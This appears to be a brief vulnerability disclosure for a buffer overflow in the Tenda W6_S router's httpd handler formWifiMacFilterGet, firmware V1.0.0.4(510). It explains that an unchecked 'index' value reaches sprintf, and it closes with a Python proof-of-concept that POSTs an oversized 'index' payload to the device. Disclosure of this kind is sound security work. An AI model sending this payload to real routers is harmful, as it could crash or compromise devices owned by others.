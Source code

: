 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formWifiMacFilterGet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](3.png)

get value from index, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/WifiMacFilterGet"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'index': payload})
``` 
